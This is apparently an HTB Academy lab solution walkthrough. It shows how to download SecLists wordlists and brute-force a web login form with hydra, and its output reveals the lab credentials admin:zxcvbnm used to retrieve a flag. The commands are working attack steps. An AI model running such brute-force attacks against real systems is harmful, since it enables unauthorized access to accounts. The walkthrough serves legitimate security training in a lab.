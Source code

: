 Subsequently, students will download the `top-usernames-shortlist.txt` and `2023-200_most_used_passwords.txt` wordlists:

Code: shell

```shell
wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2023-200_most_used_passwords.txt
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-yx6y8ivwpr]─[~]
└──╼ [★]$ wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt

┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-yx6y8ivwpr]─[~]
└──╼ [★]$ wget -q https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/2023-200_most_used_passwords.txt
```

Students will use `hydra` to perform a log-in brute-force using the `top-usernames-shortlist.txt` as the username list and `2023-200_most_used_passwords.txt` as the password list and the failure condition:

Code: shell

```shell
hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f STMIP -s STMPO http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
```

```
┌─[eu-academy-5]─[10.10.14.51]─[htb-ac-8414@htb-yx6y8ivwpr]─[~]
└──╼ [★]$ hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f 94.237.54.201 -s 30800 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-30 02:17:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3400 login tries (l:17/p:200), ~213 tries per task
[DATA] attacking http-post-form://94.237.54.201:30800/:username=^USER^&password=^PASS^:F=Invalid credentials
[30800][http-post-form] host: 94.237.54.201   login: admin   password: zxcvbnm
[STATUS] attack finished for 94.237.54.201 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-30 02:17:30
```

Students will return to the log-in page and use credentials (`admin:zxcvbnm`) to log in and attain the flag.

![[HTB Solutions/CPTS/z. images/c2f41f5c02a36f78f0429ef3e2a27dd2_MD5.jpg]]
